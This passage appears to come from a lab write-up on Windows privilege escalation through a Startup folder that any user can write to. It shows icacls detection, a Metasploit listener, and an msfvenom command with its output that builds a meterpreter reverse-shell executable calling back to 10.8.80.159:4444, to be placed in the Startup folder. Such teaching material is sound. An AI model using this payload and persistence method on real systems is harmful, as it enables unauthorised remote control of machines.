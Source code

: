 
##### Detection
To detect this misconfiguration, we use [icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) that give us the lists of permissions of the specified file:

![icacls](/assets/img/posts/windows-privesc/task7/task7_icacls_startup.png)

In this case, we can see that the **"BUILTIN\Users"** group has full access **(F)** to the **Startup** directory. Since our user belongs to the Users group, we can put the malicious file that will be generated automatically.

##### Exploitation
To do the exploitation of this vulnerability, we set a Metasploit listener:

![Msf listener](/assets/img/posts/windows-privesc/msf_multihandle.png)

Then we generate the malicious file:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.80.159 LPORT=4444 -f exe -o x.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: x.exe
```
And we upload the generated file on the Windows machine and we copy it on **C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup** folder: